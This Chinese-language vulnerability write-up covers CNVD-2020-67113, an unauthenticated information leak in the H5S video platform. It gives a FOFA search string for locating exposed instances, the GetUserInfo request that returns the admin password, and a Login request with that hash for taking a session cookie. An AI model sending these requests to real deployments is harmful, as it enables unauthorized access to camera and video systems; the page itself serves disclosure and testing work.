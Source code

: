 

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞  CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。
零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

<a-checkbox checked>零视科技 H5S视频平台</a-checkbox></br>

## FOFA

<a-checkbox checked>title="H5S视频平台|WEB"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636073252475-8f3cb570-d930-46e3-b8a6-0a686773c84a.png)

API文档可以未授权访问

```php
/doc/api.html
```

![img](../../../.vuepress/public/img/1636074612323-f1fee2de-e43f-4842-9e03-8066f9a1b7fc.png)

存在用户账号密码泄漏的接口

```php
/api/v1/GetUserInfo?user=admin&session=
```

![img](../../../.vuepress/public/img/1636073746405-1adf993c-1e08-461a-9f7f-a3ab07f969ad.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```php
/api/v1/Login?user=admin&password=02ed400b8d9289f311fc1d68a83fdaaa
```

![img](../../../.vuepress/public/img/1636073812938-d82c758c-891a-40aa-9e17-037339b99765.png)

请求成功后访问主页面

![img](../../../.vuepress/public/img/1636073852540-6758c6d5-f945-4aec-8c53-53328c3cbc7d.png)